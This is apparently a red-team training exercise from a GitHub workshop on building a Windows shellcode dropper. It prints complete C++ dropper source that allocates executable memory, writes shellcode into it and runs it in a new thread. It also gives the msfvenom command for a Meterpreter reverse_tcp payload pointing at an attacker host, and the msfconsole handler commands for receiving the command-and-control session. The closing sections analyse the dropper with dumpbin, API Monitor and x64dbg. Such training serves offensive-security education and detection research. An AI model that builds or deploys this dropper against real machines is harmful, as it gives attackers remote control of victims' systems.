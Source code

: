 ## Exercise 3: High_Level_API_Dropper
And we need to make sure that the shellcode thread completes its execution before the main thread exits.In this exercise, we want to take the first step toward creating our own direct system call dropper. But to understand the principle of a legitimate syscall itself, we will start by creating a **high-level API shellcode dropper**, or **HLA-Dropper** for short, based on the **Windows APIs** loaded by **kernel32.dll**, which will serve as our reference dropper for later modifications. This means that in the first step I deliberately do not use native APIs or direct system calls yet, but start with the classic implementation via Windows APIs, which are obtained via the kernel32.dll.
![_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235367776-54229a66-f1d6-4b8e-a2a2-7bb81fecbf48.png)


## Exercise 3 tasks:
### Create HLA-Dropper
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the HLA-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ HLA-Dropper POC. 
3. Compile the HLA-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse HLA-Dropper
6. Use the Visual Studio tool dumpbin to analyze the compiled HLA-Dropper. Is the result what you expected?  
7. Use the API Monitor to analyze the compiled HLA-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the x64dbg debugger to analyze the compiled HLA dropper: from which module and location are the syscalls from the four APIs used being executed?
Is the result what you expected?


## Visual Studio 
The POC can be created as a new C++ project (Console Application) in Visual Studio by following the steps below. 
<details>
<p align="center">
<img width="652" alt="image" src="https://user-images.githubusercontent.com/50073731/235356344-c14f9123-751c-462c-a610-50c7156f93f9.png">
</p>

The easiest way is to create a new console app project and then replace the default hello world text in main.cpp with your code. 

<p align="center">
<img width="640" alt="image" src="https://user-images.githubusercontent.com/50073731/235357092-5fd2e873-6732-4b37-a69d-38a281953b2e.png">
<img width="645" alt="image" src="https://user-images.githubusercontent.com/50073731/235357228-940ec56c-7565-44b8-8b6a-01a74ab15e1d.png">
</p>
</details>


The technical functionality of the HLA-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the HLA-Dropper into a low-level dropper using direct system calls. In the HLA-Dropper we use the following Windows APIs: 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
```
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
  
Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
```
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
    

The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>
```
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
```
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>    
```
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

Here is the **complete code**, and you can copy and paste this code into your **HLA-Dropper** project in Visual Studio.
You can also download the complete **HLA-Dropper Visual Studio projec**t in the **Code Example section** of this repository.
<details>
```
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the HLA dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the HLA dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>


## MSF-Listener
Before we test the functionality of our HLA-Dropper, we need to create a listener within msfconsole.

**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>

Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 

<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>



## HLA-Dropper analysis: dumpbin tool
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports.
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
In the case of the HLA-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the HLA-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>

## HLA-Dropper analysis: API-Monitor
We use API Monitor to check the transition from the four used Windows APIs to the four corresponding native APIs.
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and corresponding native APIs, which can prove the transition from Windows APIs (kernel32.dll) to native APIs (ntdll.dll), in the context of the HLA-Dropper, we filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

If everything was done correctly, you should see clean transitions from the Windows APIs used to the native APIs we used in our HLA-Dropper POC.
<p align="center">
<img width="498" alt="image" src="https://user-images.githubusercontent.com/50073731/235368737-9f87f5de-0a7e-4039-b454-2af23914b277.png">
</p>

## HLA-Dropper analysis: x64dbg 
Using x64dbg I check from which region of the PE structure of the HLA-Dropper the system call for the native API NtAllocateVirtualMemory is executed. As direct system calls are not yet used in this dropper, the figure shows that the system call is correctly executed from the .text region of ntdll.dll. This investigation is very important because later in the article we expect a different result with the low level dropper and want to match it.
![image](https://user-images.githubusercontent.com/50073731/235368598-ad159117-abb5-4b0d-8b52-bea2a162b565.png)


## Summary: High-level API Dropper
- No direct system calls at all
- Syscall execution over normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Dropper imports VirtualAlloc from kernel32.dll...
- ...then imports NtAllocateVirtualMemory from ntdll.dll...
- ...and finally executes the corresponding syscall or syscall stub
